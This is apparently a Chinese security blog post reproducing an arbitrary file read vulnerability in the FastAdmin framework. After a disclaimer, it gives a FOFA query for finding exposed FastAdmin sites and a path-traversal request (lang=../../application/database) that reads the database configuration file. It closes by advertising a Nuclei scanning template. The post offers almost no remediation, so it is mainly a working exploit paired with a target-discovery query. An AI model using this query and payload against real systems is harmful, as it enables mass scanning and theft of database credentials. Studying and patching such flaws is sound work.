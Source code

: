 #  Fastadmin 前台任意文件读取漏洞   
四月安全  四月安全   2024-06-19 23:17  
  
**0x0**  
  
免责声明  
  
**本文仅用于技术学习和讨论。请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。**  
  
**0x1**  
  
漏洞介绍  
  
FastAdmin是一个基于ThinkPHP5和Bootstrap的后台开发框架，支持权限管理、响应式开发、多语言、模块化开发、CRUD和自由可扩展等功能，前台存在任意文件读取漏洞  
  
**0x2**  
  
资产测绘  
```
fofa：body="fastadmin.net" || body="<h1>fastadmin</h1>" && title="fastadmin"
```  
  
**0x3**  
  
漏洞复现  
  
读取/application/database文件内容  
```
http://127.0.0.1/index/ajax/lang?lang=../../application/database
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaLk7stTDCoTvHN4ib09thhUqXUS9g8GgLh13rJz6Fte511CBibUOcxSib8CDrPibkPTTzEMnn401F41QlVOibJSykaQ/640?wx_fmt=png&from=appmsg "")  
  
**0x4**  
  
Nuclei脚本  
  
关注公众号："  
四月安全" ，回复  "  
fastadmin-Filereading"  获取  
 Nuclei 脚本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaLk7stTDCoTvHN4ib09thhUqXUS9g8GgL9QsOB7tK8SeAK4qGJt6DM6ubX3uOTrv5mtI885Yefa9aLlAjjia0Jng/640?wx_fmt=png&from=appmsg "")  
  
  
  
